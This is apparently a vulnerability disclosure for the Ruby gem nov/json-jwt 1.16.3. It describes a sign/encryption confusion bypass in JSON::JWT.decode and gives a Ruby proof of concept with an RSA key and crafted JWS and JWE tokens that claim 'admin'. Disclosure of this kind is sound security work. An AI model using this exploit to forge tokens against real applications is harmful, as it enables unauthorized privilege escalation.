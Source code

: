 # nov/json-jwt has a permissions bypass problem

## 0x01 Affected version

vendor: https://github.com/nov/json-jwt

version: 1.16.3

Ruby version: 2.6.10p210

## 0x02 Vulnerability description

A privilege bypass vulnerability exists in `JSON::JWT.decode` in `nov/json-jwt 1.16.3`, which could allow a user to bypass its identity checks under certain circumstances.

When the `JSON::JWT.decode` function parses a Token, it automatically determines whether the Token belongs to JWS or JWE.

![image-20231222204636490](novjson-jwt/image-20231222204636490.png)

If the developer uses the `RS-*` of signing algorithms and an attacker has access to the public key, a `sign/encryption confusion attack` could result, leading to a privilege bypass.

The following code is an example of using JWE to bypass `JSON::JWT.decode` here.

```ruby
require 'json/jwt'

key = JSON::JWK.new(
  "kty": "RSA",
  "n": "lZcUv-lOnuv1EigX9C6OAZ1ZTsSj8jyibCCIZTzsPqRUVcBhGXEwzUz6ZopNFkEV2KEPPJczdxAzl6c6SHAxY2yvW4Ea9FTGdfY6yNTRxzalEGsBFFgn_gO2uVRbWj1I1miKGNgsJCvXhWPQVqp5OEOyqfQmKQ6-ty8jRCBdABC8XSZcoZ3vEIRril4SHayhYCHFqLm4W567OKUDtgLDrO0HVbaU4Pg_MnMmcW7FoNqHwfMJE8fd4a49MU1CUR2SGxZbRA2E30eyM0pbV8ojrLPNjDM6qlsGg2lLVIgemzOMXzMh-6oDSjAvUtJmKjyfMFEEzMvGAVDqM8wH8IWubQ==",
  "e": "AQAB",
  "d": "fIHnj2SNP9F9hcNBTMiDAe0JrHoXS0QUnJLnc_wlVm5Ik6cwKpD_4aE0uaxbRS6fFFPZ7sCa4Xrmtk9GP4zCTtLjkfH_kWYOWZi8jPQ2Nu3Qrb2ihGBryQ0mRVNlRdLEkVEpwEwNUX38QNY3TitOAfq29qZ0LLBNJQNjAw082xPNI2um9wmgUzNcSwnJLL0ZiavQOisTQxSye8Yn2e7TIUShdDLRa9aPne-N_q5dlfAAv3_n1BHg7zcmYTUgagfEz_atesbXlgoZMjHG017HeQGHj5p527ZGz8SK-NHDQhCu9Qi0Z3lzRJkPsL66EIxAsiqyp-vgNzThqI7rTiWysQ==",
  "p": "x00TJFvOrGf42G75_xxWTa3WRvOYeQ3SazCDhl20-Gokc7BxAghAU5LeXoIu2aX3xIc8F8_LNiKEFT2aOo2O6svUU3Kh-zUHqsQ7UBpoXd4W_uZb3Gd8w8C5Oypz-zrxEyhoOwQkugfpxPNxlK3jRQ4cSr489yOnftRGz7Y2CPc=",
  "q": "wCWadtQjvUuCqPwDK3kAPpocERrJN22ZTO6dtW_Gkixjmw6L4zyM6k6U-BNPVS3wfc-m-GFlNo_9NRJ9DUl113_v81ln_1hujP-ci8Apf4_B9ItJl3z35GG7JRIL5Y8if8uMEGWX-H17Wj0Rz4Sd5zwdY4W2qU512PDyqeilbrs=",
  "dp": "KIZllAkO90OU9_1o3BTY_6aPYZH6uPK0jJMqy1GWkMSUcOm5sN4YpmXAzZrPB_aVcOLGt1jLS1CtZtxF1g4et2OG4wj2IuxfiLuqC9myyxNzvZT9rM1mMy-m-n7hYn5Tsr-OoiFvjlw5jpCp0b-h7NK3sgMIxn_7ePCVDXtRdXU=",
  "dq": "gvDdO39Dv7sWlnvu2RBDZ2X0HH_pgblRkAjINp2ub2yKkF8wWzGnQgE9KXVXSc_dpI7-1SLiK3WicylfSM-325yW83oJEgy8gZ-rmdzhKsnXvgOxqeeCswMa2p9athx9wSMAFyh0kOVKS2t0mLtiM_NWf7zehrAuRSGl7L3bBwM=",
  "qi": "fkU01pCfV_LO8uXrXZxcnzzrI7eaRiVmJT7vyGDvEjwCLBu0JMOx41TZCU_2ZS9crFVbif5Clg60O2clwctG6ElizwRFPoDZ4gVnAGgGchCxGxvwEpkkoYFbsjJz06KdHAozs0MKoUUSFqxGB4fXmsKmARA-pbKWVoDs7T3_0hI="
)

jws = "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6IkY0RGEwY3Z1NVpWV0IxLURWWGk5NnExLTV4b3BxLXhkNXYtY1VaSXoySlUifQ.eyJ1c2VyIjoiYWRtaW4ifQ.gia0rb7-eOIrQtAYtSrlwp45DUqLjG6DJO5UIzUw0iH_vbjsjXdND6sV2Rk3JxH2ezKTiPf-ovXbnRajL1enXf9gh6mxaDNoMV5E_LsYfTyM6NgpcSfbstkzla_bxR7cZUGPDzzCXO28ekeF-oiPF4_v-c1co5JXgxLJdVaIpL8RPeg_jcBaHDjqTqCkV3ZIC8_faPE1XLY1N3WHNU2ap-1Y7SUrrd3BQGM03JkRLFstQFVuFFV2AJKZbRtdbURodoAjtJRossVfTfZZ-EKXnX-GxUVdpmp64uJFiAET_BrEtJGqBJbICEshBLp8_2oUxE7HErGZTVip5IOePdAS2g"

JSON::JWT.decode jws, key

jwe = "eyJraWQiOiJGNERhMGN2dTVaVldCMS1EVlhpOTZxMS01eG9wcS14ZDV2LWNVWkl6MkpVIiwiYWxnIjoiUlNBMV81IiwiZW5jIjoiQTEyOENCQy1IUzI1NiJ9.eEGPvIQnU7piVQyo9Y2-GpKwMtSH66FfcLJ9oG63YU8iv5X3BfIv-W3f6whD7J3hwkwXjzaqDTUaLBkR8_omUZTWUHV8O6vQEqTAWt_a_B7UH6QqUkMm7iK78ZqYOpbJFb2lpNlV-YjOqh2kS_i-TUvxasLOsGCy03rBmkWFi7FbrBKqfwz62QYMJoSnaaV3CTNfU9kOUUJGyDLp3H-i3ggdKz88kdChzbAdrno1ZBq41dj0pK8uWqx1k67mm1JKvYlXREDWwnih9jpqwkLNMZFMNHGuqCw0kMCjpLJV7FH_nEL4-xnobWAHCJ3ue4F83HCe1SRH0550VXaOuArNig.jlrf727C65iURG3SOj4p_g.FhzEBHEYsM_dF76VP5i4NSw_8BXROrk35_regv5OFWJ4x1FI-aYYIgmtdeudUP6PBL8dKaZXzqszkldk1D7Ghg.Ljg3h8chNeRXTzqR_HYv_w"

JSON::JWT.decode jwe, key
```

## 0x03 Acknowledgement

P3ngu1nW